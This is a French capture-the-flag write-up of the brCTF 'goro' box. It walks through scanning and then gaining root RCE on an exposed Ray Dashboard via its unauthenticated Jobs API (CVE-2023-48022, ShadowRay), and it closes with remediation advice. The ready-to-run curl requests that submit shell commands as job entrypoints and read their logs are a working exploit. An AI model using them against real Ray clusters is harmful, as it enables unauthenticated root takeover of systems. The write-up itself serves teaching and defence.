



> Compétition : **brCTF**

## Informations

- **Catégorie :** Boot2Root (Basic, Rootable, Timed)
- **Points :** 160
- **Auteur du write-up :** 3ch0
- **IP cible :** `10.0.10.51` (`goro.brctf.africa`)

| Flag | Valeur |
|------|--------|
| **Root** | `ETSCTF_933c1c1365bb92a4ef67202b9a7374c6` |

> **Énoncé :** *Chale, just give am small goro and move.* (« goro » = petit pot-de-vin, au Ghana → la box est facile.)

---

## 1. Reconnaissance

### Scan Nmap

```bash
nmap -sC -sV 10.0.10.51
```

```text
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 9.2p1 Debian 2+deb12u10 (protocol 2.0)
80/tcp    open  http     aiohttp 3.14.3 (Python 3.11)
10001/tcp open  unknown
10003/tcp open  unknown
10004/tcp open  unknown
```

- **22** : OpenSSH 9.2p1 (Debian 12).
- **80** : serveur **aiohttp** (Python) → c'est le serveur web sur lequel tourne le dashboard Ray.
- **10001 / 10003 / 10004** : services non reconnus renvoyant une frame binaire `\0\0\x18\x04...` = une **frame SETTINGS HTTP/2** (octet `0x04`). Ce sont les **ports internes de Ray** (gRPC/HTTP2 : GCS server, raylet, ray client server…). On n'en a pas besoin : la RCE passe par le dashboard sur le port 80.



### Le service web

```bash
curl http://10.0.10.51:80
```

```html
<title>Ray Dashboard</title>
<script defer src="./static/js/main.1b0acfc1.js"></script>
```

La page est le **Ray Dashboard** — l'interface web de **Ray**, le framework de calcul distribué d'Anyscale. Un fuzzing confirme l'API du dashboard (endpoint `events`, etc.).

On récupère la version :

```bash
curl -s http://10.0.10.51/api/version
```

```json
{"version": "4", "ray_version": "2.56.0", ...}
```

→ **Ray 2.56.0**.

---

## 2. La vulnérabilité — Ray Dashboard exposé (CVE-2023-48022, « ShadowRay »)

Le **Ray Dashboard n'intègre aucune authentification** et n'est jamais censé être exposé au réseau. Son API **Jobs** permet de soumettre un job dont l'`entrypoint` est une **commande shell exécutée côté serveur**. Un dashboard accessible = **RCE non authentifiée**, qui s'exécute avec les privilèges du process Ray (ici **root**).

C'est la faille surnommée **ShadowRay** (CVE-2023-48022), exploitée en masse dans la nature sur des clusters Ray exposés.

---

## 3. Exploitation — RCE via l'API Jobs

On soumet un job qui exécute une commande :

```bash
curl -s http://10.0.10.51/api/jobs/ \
  -H 'Content-Type: application/json' \
  -d '{"entrypoint":"id; hostname"}'
```

```json
{"job_id": "raysubmit_gHK5dyccEex82xGC", "submission_id": "raysubmit_gHK5dyccEex82xGC"}
```

On récupère la sortie du job via l'API des logs :

```bash
SID='raysubmit_gHK5dyccEex82xGC'
curl -s "http://10.0.10.51/api/jobs/$SID/logs"
```

```
Running entrypoint for job ...: id; hostname
uid=0(root) gid=0(root) groups=0(root)
goro.brctf.africa
```

> **On exécute du code arbitraire en `uid=0(root)`.** La box est déjà « rootée » par la simple RCE — pas de privesc nécessaire.

---

## 4. Récupération du flag

Un job de reconnaissance liste `/root` :

```bash
curl -s http://10.0.10.51/api/jobs/ \
  -H 'Content-Type: application/json' \
  -d '{"entrypoint":"id; ls -la /root"}'
# puis lire /api/jobs/<id>/logs
```

Sortie (extrait) :

```
/root:
drwx------ 1 root root 4096 ...  .
-rw-r--r-- 1 root root    0 Sep 18 14:29 ETSCTF_933c1c1365bb92a4ef67202b9a7374c6
```

Le flag est un fichier **vide** : c'est son **nom** qui porte le flag.



**Flag :** `ETSCTF_933c1c1365bb92a4ef67202b9a7374c6`

> **Astuce :** un premier job `cat /root/root.txt /root/flag.txt /flag.txt` avait « échoué » (exit 1) simplement parce qu'aucun de ces chemins n'existait. Toujours lister le répertoire (`ls -la /root`) avant de conclure — ici le flag était le nom de fichier lui-même.

---

## Récapitulatif de la chaîne d'exploitation

1. **Recon** → port 80 = **Ray Dashboard** 2.56.0.
2. **Vuln** → dashboard exposé sans auth → RCE via l'API Jobs (CVE-2023-48022 / ShadowRay).
3. **Exploitation** → `POST /api/jobs/` avec `{"entrypoint":"<cmd>"}` → exécution **root** ; sortie lue via `GET /api/jobs/<id>/logs`.
4. **Flag** → nom de fichier dans `/root`.

> **Concept clé :** le Ray Dashboard (comme beaucoup d'interfaces d'outils de data/ML : Ray, MLflow, certains Jupyter…) est conçu pour un réseau **de confiance**, sans authentification. L'exposer revient à offrir une RCE directe. En environnement réel, Ray doit tourner derrière un pare-feu/VPN, jamais accessible depuis Internet.
>
> **Remédiation :** ne jamais exposer le port du dashboard Ray (8265, ou 80 ici) au réseau ; le binder sur `127.0.0.1`, le placer derrière un reverse-proxy authentifié, et ne pas lancer Ray en root.

---

***— 3ch0***
